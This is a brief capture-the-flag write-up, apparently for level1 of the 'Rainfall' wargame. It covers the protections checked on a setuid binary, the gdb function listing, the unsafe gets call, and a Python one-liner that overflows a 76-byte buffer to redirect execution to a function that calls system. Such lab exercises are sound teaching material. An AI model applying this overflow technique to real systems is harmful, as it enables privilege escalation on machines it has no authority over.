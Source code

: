 # Rainfall0
```
 GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```
For this first level we have a suid binary in our home.

```ls -l
~$ ls -l
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
We see less functions, but two specific ones

```gdb
(gdb) i functions
0x08048444  run
0x08048480  main
```

We can see that the run function makes a system call, this looks like a good entrypoint
And in the main function we see a gets call, it's am unprotected function that can lead to buffer overflows

Look at the asm we can see a 80 long buffer

But if we look more carefully it's actually shorter that, 80 chars completely override the return pointer

We can try to overwrite it with the run address


In order to format the adress properly, we can use python and the lib struct, it looks like that : 
```python
import struct
struct.pack('<I', 0x08048444)
    'D\x84\x04\x08' or '\x44\x84\x04\x08'
```


```python -c 'print("A" * 76 + "\x44\x84\x04\x08")' > /tmp/1

Here we are